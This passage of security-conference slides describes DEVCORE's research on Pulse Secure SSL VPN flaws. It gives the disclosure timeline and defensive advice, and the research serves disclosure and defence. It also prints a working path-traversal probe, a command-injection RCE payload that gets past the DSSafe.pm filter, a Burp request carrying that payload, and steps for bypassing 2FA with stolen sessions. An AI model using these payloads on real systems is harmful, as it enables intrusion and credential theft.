  - To handle static resources, Pulse Secure created a new IF-case to widen the original strict path validation

## Slide 80

Am I affected by this vuln?

- Probably YES!
  - All un-patched versions are vulnerable except the End-of-Life 8.1 code

```text
$ curl -I 'https://sslvpn/dana-na///css/ds.js'
  HTTP/1.1 400 Invalid Path
$ curl -I 'https://sslvpn/dana-na///css/ds.js?/dana/html5acc/guacamole/'
  HTTP/1.1 200 OK
```

## Slide 81

What can we extract?

1. Private keys and system configuration(LDAP, RADIUS and SAML…)
2. Hashed user passwords(md5_crypt)
3. Sensitive cookies in WebVPN(ex: Google, Dropbox and iCloud…)
4. Cached user plaintext passwords

## Slide 82

What can we extract?

1. Private keys and system configuration(LDAP, RADIUS and SAML…)
2. Hashed user passwords(md5_crypt)
3. Sensitive cookies in WebVPN(ex: Google, Dropbox and iCloud…)
4. Cached user plaintext passwords

*The preceding list is mostly covered by a facepalming cat image captioned “Plaintext AGAIN”.*

## Slide 83

Command Injection

  - CVE-2019-11539 – Post-auth Command Injection

`/dana-admin/diag/diag.cgi`

```perl
sub tcpdump_options_syntax_check {
  my $options = shift;
  return $options if system("$TCPDUMP_COMMAND -d $options >/dev/null 2>&1") == 0;
  return undef;
}
```

## Slide 84

Command Injection

*Pulse Secure administration screenshot: Maintenance → Troubleshooting → Tools → TCP Dump. A red arrow and red outline emphasize the **Options** field.*

“This allows you to sniff the packet headers on the network, and save them in a dump file.”

TCP Dump Status: Stopped. Interface: Internal (checked), VLAN Port: internal [pixelated]. Promiscuous mode: On (selected) / Off. Filter and Options fields are empty. Button: Start Sniffing.

## Slide 85

Pulse Secure hardenings

- Several hardenings on Pulse Secure SSL VPN…
1. System integrity check
2. Read-only filesystem(only /data are writable)
3. The DSSafe.pm as a safeguard protects Perl from dangerous operations

## Slide 86

The Perl gatekeeper

- DSSafe.pm
  - A Perl-C extension hooks several Perl functions such as:
    - system, open, popen, exec, backstick…

  - Command-line syntax validation
    - Disallow numerous bad characters - ``[\&\*\(\)\{\}\[\]\`\;\|\?\n~<>]``
    - Re-implement the Linux I/O redirections in Perl

## Slide 87

Failed argument injection :(
- TCPDUMP is too old(v3.9.4, Sept 2005) to support post-rotate-command
- Observed Pulse Secure caches Perl template result in:
  - /data/runtime/tmp/tt/*.thtml.ttc
  - No way to generate a polyglot file in both Perl and PCAP format

```text
/usr/sbin/tcpdump -help
Usage: tcpdump [-aAdDeflLnNOpqRStuUvxX] [-c count] [-C file_size]
                       [-E algo:secret] [-F file] [-i interface] [-M secret]
                       [-r file] [-s snaplen] [-T type] [-w pcap-file]
                       [-W filecount] [-z postrotate-command]
                       [-y datalinktype] [-Z user] [expression]
```

*The `[-w pcap-file]` argument is highlighted; `[-z postrotate-command]` is crossed out.*

## Slide 88

Time to dig deeper

- Dig into DSSafe.pm more deeply, we found a flaw in command line I/O redirection parsing

`dssafe_example.pl`

```perl
use DSSafe;

system("tcpdump -d $options >/dev/null 2>&1");
system("tcpdump -d -h >file >/dev/null 2>&1");   # `file` not   found
system("tcpdump -d -h >file < >/dev/null 2>&1"); # `file` created
```

## Slide 89

Think out of the box
STDOUT is uncontrollable
Could we write a valid Perl by just STDERR?

## Slide 90

Think out of the box

```text
$ tcpdump -d -r '123'
 tcpdump: 123: No such file or directory

$ tcpdump -d -r '123' 2>&1 | perl -
 syntax error at - line 1, near "123:"
 Execution of - aborted due to compilation errors.
```

## Slide 91

Think out of the box

```text
$ tcpdump -d -r 'print 123#'
 tcpdump: print 123#: No such file or directory

$ tcpdump -d -r 'print 123#' 2>&1 | perl -
  123
```

## Slide 92

Perl 101

```perl
tcpdump: print 123#: No such file or directory
```

| Braced part | Label |
| --- | --- |
| `tcpdump:` | GOTO label |
| `print 123` | Code |
| `#: No such file or directory` | Comment |

## Slide 93

RCE Exploit

```sh
/usr/sbin/tcpdump -d
 -r'$x="ls",system$x#'
 2>/data/runtime/tmp/tt/setcookie.thtml.ttc
 <
 >/dev/null
 2>&1
```

*The red annotation arrow points to the highlighted three middle lines: the `-r` argument, the `2>` redirection and `<`.*

## Slide 94

RCE Exploit — 1: `-r'$x="ls",system$x#'`

```sh
/usr/sbin/tcpdump -d
 -r'$x="ls",system$x#'
 2>/data/runtime/tmp/tt/setcookie.thtml.ttc
 <
 >/dev/null
 2>&1
```

*The numbered item is highlighted.*

STDERR(2)

```text
tcpdump: $x="ls",system$x#: No such file...
```

## Slide 95

RCE Exploit — 2: `2>/data/runtime/tmp/tt/setcookie.thtml.ttc`

```sh
/usr/sbin/tcpdump -d
 -r'$x="ls",system$x#'
 2>/data/runtime/tmp/tt/setcookie.thtml.ttc
 <
 >/dev/null
 2>&1
```

*The numbered item is highlighted.*

STDERR(2) > /data/runtime/tmp/tt/setcookie.thtml.ttc

```text
tcpdump: $x="ls",system$x#: No such file...
```

## Slide 96

RCE Exploit — 3: `<`

```sh
/usr/sbin/tcpdump -d
 -r'$x="ls",system$x#'
 2>/data/runtime/tmp/tt/setcookie.thtml.ttc
 <
 >/dev/null
 2>&1
```

*The numbered item is highlighted.*

STDERR(2) > /data/runtime/tmp/tt/setcookie.thtml.ttc

```text
tcpdump: $x="ls",system$x#: No such file...
```

*The subsequent `>/dev/null` and `2>&1` lines are crossed out.*

## Slide 97

RCE Exploit — result

*The exploit remains dimly visible behind this terminal overlay:*

```text
curl https://sslvpn/dana-na/auth/setcookie.cgi
boot  bin  home  lib64       mnt      opt  proc  sys  usr  var
data  etc  lib   lost+found  modules  pkg  sbin  tmp
...
```

## Slide 98

Response from Pulse Secure
- Pulse Secure is committed to providing customers with the best Secure Access Solutions for Hybrid IT- SSL VPN and takes security vulnerabilities very seriously

- Timeline:
  - This issue was reported to Pulse Secure PSIRT Team on March 22, 2019
  - Pulse Secure fixes all reported issues in short span of time and published the security advisory SA44101 on April 24, 2019 with all software updates that address the vulnerabilities for unpatched versions
  - Pulse Secure assigned the CVE’s to all reported vulnerabilities and updated the advisory on April 25, 2019
  - Pulse Secure sent out a reminder to all customers to apply the security patches on June 26, 2019

- Pulse Secure would like to thank DEVCORE Team for reporting this vulnerability to Pulse Secure and working toward a coordinated disclosure

## Slide 99

Hacking Twitter

- We keep monitoring large corporations who use Pulse Secure by fetching the exposed version and Twitter is one of them
- Pulse Secure released the patch on April 25, 2019 and we wait 30 days for Twitter to upgrade the SSL VPN

## Slide 100

*Browser screenshot: address pixelated in the source.*

Welcome to the **Twitter VPN Access Portal**

username · password · Realm: **TWO FACTOR FULL TUNNEL** · Sign In

Please sign in to begin your secure session.

## Slide 101

Twitter is vulnerable

```text
$ ./pulse_check.py <mask>.twitter.com
[*] Date = Thu, 13 Dec 2018 05:34:28 GMT
[*] Version = 9.0.3.64015
[*] OK, <mask>.twittr.com is vulnerable
```

## Slide 102

*Cartoon reaction image: a yellow dog with wide eyes and an open mouth.*

## Slide 103

*Two facepalming Star Trek characters. Caption: “TWO… FACTOR AUTHENTICATION”.*

## Slide 104

Two-factor authentication

- Bypass the two-factor authentication
1. Although we can extract cached passwords in plaintext from /lmdb/dataa/data.mdb, we still can not do anything :(
2. Twitter enabled the Roaming Session (enabled by default)
3. Download the /lmdb/randomVal/data.mdb to dump all session
4. Forge the user and reuse the session to bypass the 2FA

## Slide 105

*Pulse Connect Secure browser screenshot after signing in. Addresses and the upper-right account label are pixelated in the source.*

Welcome to the Pulse Connect Secure, sviswanathan.

- Web 標籤 — 您完全沒有 Web 書籤。 [Web bookmarks — You have no Web bookmarks.]
- 檔案 — Windows 檔案 | Unix 檔案; 您未將任何檔案加入書籤。 [Files — Windows files | Unix files; no files bookmarked.]
- 終端機工作階段 — 您完全沒有終端機工作階段。 [Terminal sessions — no terminal sessions.]
- 用戶端應用程式工作階段 — Pulse; Java 安全應用程式管理員; 開始. [Client application sessions — Pulse; Java Secure Application Manager; Start.]

## Slide 106

Restricted admin interface

*Browser screenshot; hostname pixelated, path:* `/dana-na/auth/url_admin/welcome.cgi`

Welcome to **Secure Access SSL VPN**

**You do not have permission to login. Please contact your administrator.**

## Slide 107

*The signed-in portal from slide 105 remains dimly visible. An enlarged toolbar is labeled “Logged-in as: orange”, with Home, Meetings, Preferences, Help, Sign Out, Browse and (tips). A red arrow emphasizes the Browse field:*

```text
https://0/admin/
```

## Slide 108

*Browser screenshot: Secure Access SSL VPN administrator sign-in page. The hostname is pixelated. Visible address path:*

```text
/dana-na/auth/url_admin/,DanaInfo=0,SSL+welcome.cgi
```

Welcome to Secure Access SSL VPN

Username · Password · Sign In

Please sign in to begin your secure session.

Note: This is the **Administrator Sign-In Page**. If you don't want to sign in as an Administrator, return to the standard Sign-In Page.

## Slide 109

However
We only have the hash of admin password in
`sha256(md5_crypt(salt, …))`

## Slide 110

*Cat at a laptop, captioned:*

LAUNCH A 72-CORE AWS TO CRACK

SHA256(MD5_CRYPT(SALT,…))

## Slide 111

*Time-passage card: “3 HOURS LATER…”*

## Slide 112

*Pulse Secure administration browser screenshot. The visible URL suffix is `DanaInfo=0,SSL+dana-admin/diag/diag.cgi#`; its prefix is pixelated.*

Maintenance → Troubleshooting → Tools → Commands

Command: Ping. Target server: empty. Interface: Internal Port (selected) / External. VLAN Port: internal [pixelated]. Buttons: OK / Clear. Output: empty.

## Slide 113

*Burp Suite Professional v2.0.09beta, Repeater screenshot. Request and response panes; target, hostname, cookies and other selected request fields are pixelated in the source. Visible request line, joined from its displayed wraps:*

```http
GET /,DanaInfo=0,SSL+dana-admin/diag/diag.cgi?a=td&chkInternal=on&optInternal=int0&misc=on&filter=&options=-r%24x%3D%22/sbin/ifconfig%22%2Csystem%24x%23+2%3E%2Fdata%2Fruntime%2Ftmp%2Ftt%2Fsetcookie.thtml.ttc+%3C&toggle=Start+Sniffing&xsauth=4e447cf57b80ce763d02e041be41bfa2 HTTP/1.1
Host: [pixelated]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: [pixelated]dana-admin/diag/,DanaInfo=0,SSL+diag.cgi?a=td
[pixelated request fields]
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
```

Visible response:

```http
HTTP/1.1 200 OK
Pragma: No-Cache
Cache-Control: No-Cache
Set-Cookie: DSCK:LastRealm=0; path=/; secure; expires=Sat, 01 Jan 1970 00:00:00 GMT; Domain=[pixelated]
Content-Type: text/html; charset=utf-8
Content-Disposition: inline; filename*=UTF-8''diag.cgi
X-Frame-Options: SAMEORIGIN
Set-Cookie: DSLastAccess=1559044992; path=/; Secure
Connection: close
Strict-Transport-Security: max-age=31536000

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Frameset//EN"
"http://www.w3.org/TR/html4/frameset.dtd">

<html>
<head>
<meta http-equiv="X-UA-Compatible" content="IE=8, IE=9, IE=10">

<meta http-equiv="Content-Language">
<meta http-equiv="Content-Type" content="text/html">
```

The status bar shows **173,594 bytes | 4,831 millis**. The response search is `tcp` with **10 matches**.

## Slide 114

*Browser source view of `/dana-na/auth/setcookie.cgi`; hostname and hardware addresses are pixelated. Visible output:*

```text
eth2      Link encap:Ethernet  HWaddr [pixelated]
          UP BROADCAST RUNNING SLAVE MULTICAST  MTU:1500  Metric:1
          RX packets:35606236014 errors:0 dropped:0 overruns:0 frame:0
          TX packets:39493038831 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:27550572412019 (25.0 TiB)  TX bytes:35086268427123 (31.9 TiB)

eth3      Link encap:Ethernet  HWaddr [pixelated]
          UP BROADCAST RUNNING SLAVE MULTICAST  MTU:1500  Metric:1
          RX packets:38799900799 errors:0 dropped:126028 overruns:0 frame:0
          TX packets:34512697993 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:32222414579423 (29.3 TiB)  TX bytes:24982418765596 (22.7 TiB)

eth4      Link encap:Ethernet  HWaddr [pixelated]
          UP BROADCAST SLAVE MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:0 (0.0 b)  TX bytes:0 (0.0 b)

eth5      Link encap:Ethernet  HWaddr [pixelated]
          UP BROADCAST SLAVE MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
```

*The next line is cut off at the bottom of the screenshot.*

## Slide 115

**$20,160**

*The amount overlays the dimmed network-interface output from slide 114.*

## Slide 116

Make the red team more
Red

## Slide 117

Weaponize the SSL VPN

- The old-school method
  - Watering hole / Drive by download
  - Replace SSL VPN agent installer
  - Man-in-the-middle attack

## Slide 118

Weaponize the SSL VPN

- The new method to compromise all VPN clients
- Leverage the logon script feature!
  - Execute specified program once the VPN client connected
  - Almost every SSL VPN supports this feature
  - Support Windows, Linux and Mac

## Slide 119

Demo
Compromise all connected VPN clients

## Slide 120

Demo
https://youtu.be/v7JUMb70ON4

## Slide 121

Recommendations

- Client certificate authentication
- Multi factors authentication
- Enable full log audit (Be sure to send to out-bound server)
- Subscribe to the vendor's security advisory and keep system updated!

## Slide 122

Thanks!

DEVCORE

| Twitter | Email |
| --- | --- |
| @orange_8361 | orange@devco.re |
| @mehqq_ | meh@devco.re |
